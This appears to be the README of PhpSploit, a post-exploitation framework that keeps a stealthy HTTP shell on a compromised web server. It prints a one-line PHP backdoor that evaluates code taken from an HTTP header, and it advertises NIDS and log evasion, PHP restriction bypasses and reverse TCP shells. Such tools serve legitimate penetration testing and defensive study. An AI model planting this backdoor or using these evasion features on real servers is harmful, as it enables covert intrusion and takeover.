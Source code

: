 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

![][picture]

---------------------------------------------------------------------
#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
valid client HTTP requests and web server's responses, tunneled through
a tiny **polymorphic backdoor**:

    <? @eval($_SERVER['HTTP_PHPSPL01T']) ?>

---------------------------------------------------------------------
#### Features ####

1. **Efficient**: More than 20 plugins to automate post-exploitation tasks
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

2. **Stealth**: The framework is made by paranoids, for paranoids
    - Nearly invisible by log analysis and NIDS signature detection
    - Safe-mode and common PHP security restrictions bypass
    - Communications are hidden in HTTP Headers
    - Loaded payloads are obfuscated to **bypass NIDS**
    - HTTP/HTTPS Proxy support

3. **Convenient**: A robust interface with many crucial features
    - Powerful interface with completion and multi-command support
    - Session saving/loading feature, with persistent history
    - Multi-request support for large payloads (such as uploads)
    - Provides a powerful, highly configurable settings engine
    - Each setting, such as user-agent has a polymorphic mode
    - Customisable environment variables for plugin interaction
    - Provides a complete plugin development API


[picture]: https://raw.githubusercontent.com/nil0x42/phpsploit/destiny/data/img/phpsploit-demo.png
